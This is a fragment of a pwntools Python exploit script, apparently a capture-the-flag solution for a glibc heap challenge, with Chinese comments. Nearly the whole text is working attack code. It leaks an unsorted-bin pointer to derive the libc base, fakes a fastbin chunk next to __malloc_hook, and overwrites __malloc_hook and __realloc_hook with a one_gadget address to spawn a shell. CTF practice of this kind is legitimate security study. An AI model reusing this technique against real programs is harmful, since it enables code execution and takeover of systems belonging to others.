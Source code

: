 ```python
	p.sendline(str(num))

def change(name):
	p.sendline('5')
	p.sendlineafter('name',name)


add(0xd0,'a'*0x10,0x20,'cba')
add(0x80,'b'*0x10,0x60,'cba')
add(0x10,'a'*0x10,0x10,'b'*0x10)
free(2)
echo()
p.recvuntil('Author: ssssssssssssssssssssssssssssssss')
x=p.recv(6).ljust(8,"\00")
print(hex(u64(x)))
book1=u64(x)
book2=book1+0x30
log.info('book1_dr:'+hex(book1))
log.info('book2_dr:'+hex(book2))
log.info('book3_dr:'+hex(book1+0xc0))
#unsorted bin泄露地址
fake=p64(1)+p64(book2+0x8)+p64(book1+0xc0)+p64(0x20)
edit(1,fake)
change('b'*0x20)
echo()
p.recvuntil('Name: ')
x=p.recv(6).ljust(8,"\00")
addr=u64(x)
log.info('bin_addr:'+hex(addr))
base=addr-0x3c4b78
log.info('base:'+hex(base))
malloc_hook=0x3c4b10+base
log.info('malloc_hook:'+hex(malloc_hook))
#修改fd 让伪造chunk 进入fast bin
fake2=p64(malloc_hook-0x30+0xd)
edit(1,fake2)
#free(3)
add(0x20,'b'*0x10,0x60,'cba')
add(0x20,'b'*0x10,0x60,'a'*3+p64(0)*2)
echo()
#申请伪造chunk 写入__malloc_hook与__realloc_hook
one=base+0x4527a
log.info('one_gadget:'+hex(one))
realloc_addr=base+0x8471d
log.info('one_gadget:'+hex(one))
edit(5,'a'*3+p64(0)+p64(one)+p64(realloc_addr))
free(3)


p.sendline('1')
p.sendlineafter('name size:',str(10))


p.interactive() 
```
